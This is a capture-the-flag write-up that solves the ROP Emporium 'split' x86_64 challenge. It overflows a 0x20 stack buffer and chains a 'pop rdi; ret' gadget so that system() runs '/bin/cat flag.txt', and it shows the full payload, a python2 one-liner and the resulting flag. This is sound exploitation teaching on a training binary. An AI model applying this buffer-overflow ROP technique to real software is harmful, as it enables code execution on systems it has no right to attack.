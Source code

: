 ### split x86_64
The problem guides has told you that same as ret2win, there is a 0x20 buffer, which can be overflowed, and there is still a syscall in a function named usefulFunction.

First, check the binary security.
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
NX is enabled. Therefore, we cannot execute shellcode in stack directly. Thankful, the hint has told us that there is a syscall in function. We only need to control return address to jump to the syscall place.
Use ghidra to track the code.

There is indeed a 0x20 buffer, and indeed a syscall in function usefulFunction.

However, the syscall command is not "/bin/cat flag.txt", "but /bin/ls".
```
...
00400746 bf 4a 08        MOV        EDI=>s_/bin/ls_0040084a,s_/bin/ls_0040084a       = "/bin/ls"
         40 00
0040074b e8 10 fe        CALL       system                                           int system(char * __command)
         ff ff
...
```
Therefore, need to modify the command in the syscall, try to assign "/bin/cat flag.txt" to the register edi(x86 64 first argument)(edi 32bit, rdi 64bit).

Use ghidra to find "/bin/cat flag.txt" in binary.
```
...
                     usefulString                                    XREF[1]:     Entry Point(*)  
00601060 2f 62 69        ds         "/bin/cat flag.txt"
         6e 2f 63 
         61 74 20 

...
```
We find the string "/bin/cat flag.txt" in address 0x00601060.

Now, we need to find a instruction such as "pop rdi" or "pop edi" with ret to assign this address to edi register.

Use rop command in peda-gdb.
```
...
0x00000000004007c3 : pop rdi ; ret
...
```
We find a gadget which exactly we want.

Then, we can construct our rop overflow strings.

Same as ret2win, buffer size is 0x20, and a rbp address, so the strings should be:

```
strings = 'A'*32(32 bytes) + rbp(8 bytes) = 'A' * 40 //overflow 0x20 buffer and rbp register
```
Next, the process should return to the gadget we found before, which will be:
```
'\xc3\x07\x40\x00\x00\x00\x00\x00' //return address jump to the gadget we want. In this case is, pop rdi; ret;
```
Then, we need to push the "/bin/cat flag.txt" address into stack, which will be pop into edi register later:
```
'\x60\x10\x60\x00\x00\x00\x00\x00' //the value we want to pop into edi register. In this case is the address of string "/bin/cat flag.txt".
```
Now, we successfully assign the command we want into the edu register, we can return to the syscall place to execute syscall.
```
'\x4b\x07\x40\x00\x00\x00\x00\x00' //return address jump to the syscall. It will execute the command we assign to rdi.
```
Remember, we should directly jump to call system instruction. If we jump to the instruction right before it, the argument in edi will be modified to "/bin/ls" again. 

The overflow string will be:
```
'A'*40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x4b\x07\x40\x00\x00\x00\x00\x00'
```
Run the program with input:
```
python2 -c "print 'A'*40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x4b\x07\x40\x00\x00\x00\x00\x00'" | ./split
```
Get the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
